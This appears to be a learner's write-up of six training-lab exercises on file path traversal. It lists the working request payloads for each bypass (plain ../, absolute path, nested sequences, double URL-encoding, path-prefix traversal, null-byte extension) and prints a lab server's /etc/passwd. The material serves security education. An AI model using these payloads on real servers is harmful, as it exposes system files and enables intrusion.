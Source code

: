 # Directory Traversal

### :material-gauge-empty: File path traversal, simple case

!!! question
    This lab contains a file path traversal vulnerability in the display of product images.

    To solve the lab, retrieve the contents of the `/etc/passwd` file.

!!! tip
    I tried to solve this using just a browser, but was unsuccessful. Primarily because the content type of the return is `image/jpeg` and since I'm pulling text (the `/etc/passwd` file), it simply doesn't render properly in the chrome developer tools. NTS: use the tool.

Poking around a bit and found that the site dynamically loads images using the following structure:

```text
https://ac101fa61fd2a9cdc02e17a800950081.web-security-academy.net/image?filename=37.jpg
```

I simply found this request in the Burp Suite proxy, forwarded it to the repeater tool and edited the `filename` parameter to be `image?filename=../../../etc/passwd` and then sent the request. The response looked like the following:

```text
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1260

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/home/academy:/bin/bash
dnsmasq:x:101:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
messagebus:x:102:101::/nonexistent:/usr/sbin/nologin
```

### :material-gauge: File path traversal, traversal sequences blocked with absolute path bypass

!!! question
    This lab contains a file path traversal vulnerability in the display of product images.

    The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

    To solve the lab, retrieve the contents of the `/etc/passwd` file.

This one was pretty easy. Given a request like the following:

```text
GET /image?filename=48.jpg HTTP/1.1
```

I confirmed that it didn't work the "easy way" by testing this:

```text
GET /image?filename=../../../etc/passwd HTTP/1.1
```

And received an error indicating the requested file did not exist. So, following the instructions, I adjusted the request as follows:

```text
GET /image?filename=/etc/passwd HTTP/1.1
```

And was rewarded with the contents of the `/etc/passwd` file.


### :material-gauge: File path traversal, traversal sequences stripped non-recursively

!!! question
    This lab contains a file path traversal vulnerability in the display of product images.

    The application strips path traversal sequences from the user-supplied filename before using it.

    To solve the lab, retrieve the contents of the `/etc/passwd` file.

The key to solving this lab is that the server-side code appears to be looking for instances of `../` and stripping them, but _non-recursively_. This means, that they might have a line that looks like the following bit of python:

```python
safe_path = requested_path.replace("../", "")
```

If you provide a request that looks like this: `/image?filename=....//....//....//etc/passwd`, the value of `safe_path` still has a traversal problem, which means we will still get the file we are looking for which, is in fact, the case here.

### :material-gauge: File path traversal, traversal sequences stripped with superfluous URL-decode

!!! question
    This lab contains a file path traversal vulnerability in the display of product images.

    The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

    To solve the lab, retrieve the contents of the `/etc/passwd` file.

On this one, I tried URL-encoding the traversal attack as follows:

```text
GET /image?filename=%2E%2E%2f%2E%2E%2f%2E%2E%2fetc%2fpasswd HTTP/1.1
```

You see that each `.` becomes `%2e` and each `/` becomes `%2f`. But this didn't work. I then tried *double* URL encoding the path as shown below, which **did** work.

```text
GET /image?filename=%252E%252E%252f%252E%252E%252f%252E%252E%252fetc%252fpasswd HTTP/1.1
```

The problem or *bug* in this application is that they called a "safe" function (URL-decode) twice... once prior to checking for path traversal issues (a good thing) but a second time *after* checking for path traversal issues. This could almost be considered a TOCTOU type bug.


### :material-gauge: File path traversal, validation of start of path

!!! question
    This lab contains a file path traversal vulnerability in the display of product images.

    The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

    To solve the lab, retrieve the contents of the `/etc/passwd` file.

Within the HTTP request log, I found a request that looks like this:

```text
GET /image?filename=/var/www/images/47.jpg HTTP/1.1
```

I modified it as follows:

```text
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
```

After submission, I was presented the `/etc/passwd` file.


### :material-gauge: File path traversal, validation of file extension with null byte bypass

!!! question
    This lab contains a file path traversal vulnerability in the display of product images.

    The application validates that the supplied filename ends with the expected file extension.

    To solve the lab, retrieve the contents of the `/etc/passwd` file.

If you take the time to [read the documentation](https://portswigger.net/web-security/file-path-traversal) on this type of issue, the solution becomes quite straight forward. The following `GET` request does the trick:

```text
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
```